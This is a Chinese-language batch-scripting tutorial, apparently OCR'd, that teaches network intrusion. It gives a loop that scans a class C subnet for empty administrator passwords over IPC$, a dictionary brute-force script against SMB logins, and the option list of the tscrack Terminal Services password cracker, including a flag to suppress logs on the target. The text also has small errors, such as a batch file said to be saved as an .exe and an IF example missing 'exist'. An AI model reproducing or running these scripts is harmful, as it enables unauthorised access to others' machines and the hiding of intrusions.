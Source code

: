 for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use %1.%%G /user:administrator | find "命令成功完成" >>test.txt

存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。

/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。

@echo off

echo 用法格式：ok.bat ip

FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200

存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。

七：

2：if命令及变量 基本格式：

IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。

例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。

0 指发现并成功执行（真）；1 指没有发现、没执行（假）。

IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。

例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）

IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。

例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。

IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. else echo test.txt.missing ”，注意命令中的“.”

终端服务密码破解 tscrack:

参数说明

-h 显示使用帮助

-v 显示版本信息

-s 在屏幕上打出解密能力

-b 密码错误时发出的声音

-t 同是发出多个连接（多线程）

-N Prevent System Log entries on targeted server

-U 卸载移除tscrack组件

-f 使用－f后面的密码

-F 间隔时间（频率）

-l 使用－l后面的用户名

-w 使用－w后面的密码字典

-p 使用－p后面的密码

